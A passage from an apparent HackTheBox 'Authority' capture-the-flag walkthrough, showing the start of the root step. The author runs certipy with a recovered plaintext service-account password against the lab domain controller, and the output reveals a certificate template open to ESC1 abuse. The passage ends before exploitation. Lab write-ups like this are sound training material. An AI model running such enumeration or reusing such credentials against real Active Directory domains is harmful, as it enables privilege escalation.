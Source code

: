 Import that into bloodhound and look around if you are curious.

<h1>Root</h1>

<h2>ESC1</h2>

One of the first scans I run in AD environments is certipy.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $certipy find -vulnerable -u svc_ldap -p lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Saved BloodHound data to '20230828214308_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230828214308_Certipy.txt'
[*] Saved JSON output to '20230828214308_Certipy.json'
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $cat 20230828214308_Certipy.txt 
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
```